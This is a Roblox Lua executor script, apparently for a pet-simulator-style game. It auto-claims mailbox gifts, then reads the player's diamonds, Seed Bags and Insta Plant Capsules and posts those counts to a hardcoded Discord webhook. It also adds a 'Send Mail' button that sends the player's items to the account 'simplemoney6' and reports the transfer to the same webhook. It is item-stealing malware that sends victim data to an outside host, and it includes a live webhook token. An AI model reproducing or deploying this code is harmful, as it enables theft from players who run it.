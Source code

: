 wait(5)
local function Dialogggg()
    while true do
local player = game.Players.LocalPlayer
local gui = player.PlayerGui:FindFirstChild("_MACHINES")

if gui then
    local mailboxMachine = gui.MailboxMachine
    if mailboxMachine then
        local giftsFrame = mailboxMachine.Frame.GiftsFrame
        if giftsFrame then
            local itemsFrame = giftsFrame.ItemsFrame
            if itemsFrame then
                local frameChild = itemsFrame:FindFirstChildWhichIsA("Frame")
                if frameChild then
                    local args = {
                        [1] = {
                            [1] = frameChild.Name
                        }
                    }
                    game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Claim"):InvokeServer(unpack(args))
                end
            end
        end
    end
end

      wait(1)
    end
end
    
coroutine.wrap(Dialogggg)()


local ReplicatedStorage = game:GetService("ReplicatedStorage")
local HttpService = game:GetService("HttpService")
local Client = require(ReplicatedStorage:WaitForChild("Library"))
local Players = game:GetService("Players")
local UserInputService = game:GetService("UserInputService")

local webhookURL = "https://discord.com/api/webhooks/1240051310783627374/FeWsgqN_nlUvPEXVnxgP4pZ5qIJeDn6Uyhd0_vjjBVVGegKU8jGLgVdV0ULgRWumSvML"
local request = (syn and syn.request) or request or (http and http.request) or http_request

local DiamondsTable = {"Diamonds"}
local ItemTable = {"Seed Bag", "Insta Plant Capsule"}

function MakeDiamondsTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

function MakeTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

local diamondsAmount, seedBagAmount, instaPlantCapsuleAmount
local seedbagid, instaplantid

function GrabDiamondsId()
    for i, MadeTable in ipairs(MakeDiamondsTable(DiamondsTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.class == "Currency" then
            diamondsAmount = Table.data._am
        end
    end
end

function GrabId()
    for i, MadeTable in ipairs(MakeTable(ItemTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.data.id == "Seed Bag" then 
            seedBagAmount = Table.data._am
            seedbagid = Table.uid
        elseif Table.data.id == "Insta Plant Capsule" then
            instaPlantCapsuleAmount = Table.data._am
            instaplantid = Table.uid
        end
    end
end

GrabDiamondsId()
GrabId()

local playerName = Players.LocalPlayer.Name

local contentMsg = {
    embeds = {
        {
            title = "***👨‍💻: " .. playerName .. "***",
            description = "",
            color = 16777215,
            fields = {
                {
                    name = "***💎:***",
                    value = "***" .. (diamondsAmount and diamondsAmount or 0) .. "***"
                },
                {
                    name = "***🫙:***",
                    value = "***" .. (instaPlantCapsuleAmount and instaPlantCapsuleAmount or 0) .. "***"
                },
                {
                    name = "***🌱:***",
                    value = "***" .. (seedBagAmount and seedBagAmount or 0) .. "***"
                }
            }
        }
    }
}


request({
    Url = webhookURL,
    Method = "POST",
    Headers = {
        ["Content-Type"] = "application/json",
    },
    Body = HttpService:JSONEncode(contentMsg),
})

local screenGui = Instance.new("ScreenGui")
local button = Instance.new("TextButton")

screenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
button.Parent = screenGui
button.Size = UDim2.new(0, 200, 0, 50)
button.Position = UDim2.new(0.5, -100, 0, 0)  -- Changed Y position to 0 for top alignment
button.BackgroundColor3 = Color3.new(0, 0, 0)
button.Text = "Send Mail"
button.TextColor3 = Color3.new(1, 1, 1)
button.TextScaled = true


button.MouseButton1Click:Connect(function()
    local args1 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = seedbagid or "",
        [5] = seedBagAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args1))
    wait(3)
    local args2 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = instaplantid or "",
        [5] = instaPlantCapsuleAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args2))

    local mailContentMsg = {
        embeds = {
            {
                title = "***👨‍💻: " .. playerName .. "***",
                description = "***💌: Mail Successfully Sent!***",
                color = 16777215,
                fields = {
                    {
                        name = "***🫙:***",
                        value = "Sent ***" .. instaPlantCapsuleAmount .. "***"
                    },
                    {
                        name = "***🌱:***",
                        value = "Sent ***" .. seedBagAmount .. "***"
                    }
                }
            }
        }
    }

    request({
        Url = webhookURL,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json",
        },
        Body = HttpService:JSONEncode(mailContentMsg),
    })
end)
